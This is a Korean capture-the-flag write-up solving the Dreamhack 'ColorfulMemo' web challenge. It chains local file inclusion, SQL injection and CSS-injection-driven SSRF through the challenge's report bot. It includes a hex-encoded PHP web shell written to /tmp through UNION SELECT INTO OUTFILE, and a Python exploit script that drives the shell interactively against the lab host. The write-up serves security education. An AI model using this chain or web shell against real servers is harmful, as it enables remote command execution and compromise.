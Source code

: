 ```yaml
---
title: "[dreamhack] ColorfulMemo 문제 풀이"
categories:
  - dreamhack
tags:
  - dreamhack
  - css injection
  - ssrf
  - LFI
  
toc: true
toc_sticky: true
toc_label: "ColorfulMemo 문제 풀이"
toc_icon: "bookmark"
author_profile: true
hidden: true
---
```


💡  [2022 Spring GoN Open Qual CTF] ColorfulMemo 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
문제 링크 : [https://dreamhack.io/wargame/challenges/473/](https://dreamhack.io/wargame/challenges/473/)

우선 문제를 풀기에 앞서 웹페이지의 기능은 다음과 같습니다.

1. Write

![image](https://user-images.githubusercontent.com/33647663/160804268-91cab590-393d-41ed-ac79-2e2a9cad684c.png)

2. Read & Report

![image](https://user-images.githubusercontent.com/33647663/160804363-b7f0fcb9-933f-4e8e-b8fa-0ca235b3769e.png)

기본적으로 게시글에 Report 기능이 있기 때문에 CSRF, XXE, SSRF 와 같은 스크립트를 이용한 공격에 대해서 생각해 봐야 합니다.

# 파일 분석

본론 부터 보면 문제에는 총 3개의 취약점이 있습니다.

## LFI(Local File Inclusion)

index.php 파일에서는 다음과 같은 형태로 파일들을 연결해 줍니다.
이때 Path로 입력한 값에 대한 검증이 없기 때문에
```path=../../../../tmp/shell```과 같이 입력한다면
```./../../../../tmp/shell.php``` 파일에 접근이 가능해집니다.

**index.php**
```php
<?php
    $path = $_GET["path"];
    if($path == ""){
        $path = "main";
    }
    $path = "./".$path.".php";
?>

// 중략
<div class="body">
    <?php include_once $path; ?>
</div>
```

## SQLI(SQL Injection)
대부분의 코드에서 Prepared Statement를 활용하여 원천적으로 SQL Injection이 막혀있는데, 다음 부분에서 유일하게 sql injection 공격이 가능한 포인트가 있었습니다. id 값에 대한 검증은 check.php 파일을 호출하기 전에 하고 있었으며, 이 부분을 우회한다면 sqli 공격이 가능합니다.

**check.php**
```php
<?php
if($_SERVER["REMOTE_ADDR"] == '127.0.0.1' || $_SERVER["REMOTE_ADDR"] == '::1'){
    $id = $_GET['id'];
    $mysqli = new mysqli('localhost','user','password','colorfulmemo');
    // I believe admin 
    $result = $mysqli->query('SELECT adminCheck FROM memo WHERE id = '.$id);
    if($result){
        $row = mysqli_fetch_row($result);
        if($row){
            if($row[0] != 1){
                $stmt = $mysqli->prepare('UPDATE memo SET adminCheck = 1 WHERE id = ?');
                $stmt->bind_param('i',$id);
                $stmt->execute();
                $stmt->close();
            }
        }
    }
}
else{
    die("no hack");
}
?>
```

## SSRF with CSS Injection
게시글을 read할때 다음과 같은 로직으로 구성되어 script를 차단하고 있습니다. 이때 색을 선택하는 color 부분에서 '<' , '>' 에 대한 필터링만 하고 있기 때문에 CSS Injection이 가능한 취약점이 발생했습니다. 이를 이용해서 report를 할 때 해당 게시글을 읽으면, 봇에서 스크립트가 실행되게 되어 SSRF 공격이 가능해 집니다.

**read.php**

```php
<?php
$id = $_GET["id"];

$mysqli = new mysqli('localhost','user','password','colorfulmemo');
if($mysqli){
    $stmt = $mysqli->prepare('SELECT title, color, content, adminCheck FROM memo WHERE id = ?');
    $stmt->bind_param('i',$id);
    $stmt->execute();
    $result = $stmt->get_result();
    $stmt->close();
}
else{
    die('db error');
}

$row = mysqli_fetch_row($result);
if($row){
    $title = $row[0];
    $color = $row[1];
    $color = str_replace("<", "&lt;", $color);
    $color = str_replace(">", "&gt;", $color);
    $content = $row[2];
    $adminCheck = $row[3];
}
else{
    die('no such memo');
}

<style>
    .content{
        color:<?php echo $color ?>      // CSS Injection 취약점
    }
</style>

// $title과 $content는 htmlspecialchars로 스크립트 실행 불가
<td><?php echo htmlspecialchars($title); ?></td>
<td><span class="content"><?php echo htmlspecialchars($content); ?></span></td>
```


# 시나리오

위의 3가지 취약점을 종합하여 다음과 같은 시나리오 flag를 획득합니다.

1. 게시글을 작성할 때, CSS Injection을 이용하여 악성 게시글을 report 하여 bot에서 글을 읽게 만든 후, ./check?id=[sql injection 코드] 로 작성하여 SSRF를 이용한 sql injection을 수행합니다.

2. SQL Injection 에서는 웹쉘이 서버에 생성되도록 합니다. my.cnf 파일을 보면 ```secure-file-priv= /tmp/```로 되어 있기 때문에 /tmp/shell.php로 파일을 작성합니다.

3. LFI 취약점을 이용하여 해당 경로로 접근하여 웹쉘을 실행시킵니다.


이 시나리오 대로 웹쉘이 실행되며 flag를 획득할 수 있습니다.


## CSS Injection

memoColor =  black; background: url("./check.php?id=3 union select '웹쉘' into outfile '/tmp/shell.php'")

와 같이 작성해 준다면 봇이 해당 글을 클릭하면 SSRF로 인해서 shell.php 파일이 생성됩니다.

## bypass '<','>' filtering
웹쉘을 작성할 때 주의할 점은 read.php 함수에서 다음과 같이 '<','>' 글자를 필터링 하고 있다는 것입니다.

```php
    $color = str_replace("<", "&lt;", $color);
    $color = str_replace(">", "&gt;", $color);
```

웹쉘을 다음과 같이 작성하면 필터링에 걸립니다.

```php
<?php system($_GET['cmd']); ?>
```

따라서 이 부분을 16진수로 표현하여 php에서는 필터링에 안걸리지만, mysql 에서 실행될 때, 문자열로 변환되어 실행되도록 해줍니다.

```
3 union select 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e  into outfile '/tmp/shell.php'
```

## exploit.py

```python
import requests

url = "http://host1.dreamhack.games:12811/?path=write"

datas = {
    "memoTitle" : "1",
    "memoColor" : "black; background: url(\"./check.php?id=3 union select 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e  into outfile '/tmp/shell.php'\")",
    "memoContent" : "123"
}

response = requests.post(url,data=datas)
# 게시글 작성 후 해당 게시글 report.
# 그러면 /tmp/shell.php 파일이 서버에 생성됩니다.

# 웹쉘 실행 코드는 아래


while(1):
    payload = input("[+] Enter the command : ")
    RESULT = requests.get("http://host1.dreamhack.games:12811" + f'/?path=../../../../../../tmp/shell&cmd={payload}').text.split('<div class="body">')[1].split('</div>')[0].strip()
    print(RESULT)
```


1. 게시글 작성한 뒤 해당 글을 읽을 때, check.php파일이 호출되는 모습

![image](https://user-images.githubusercontent.com/33647663/160810280-8c1f9114-9a16-4de9-8579-b686a47bdada.png)


2. report 후, 웹 쉘이 실행되어 쉘을 획득한 모습
![image](https://user-images.githubusercontent.com/33647663/160810477-542bafb9-0b84-4331-acab-4fdf41b60899.png)

3. root 디렉터리에 flag 파일이 보임
![image](https://user-images.githubusercontent.com/33647663/160810665-b67b3615-7c2a-457f-8278-1a969d7030f6.png)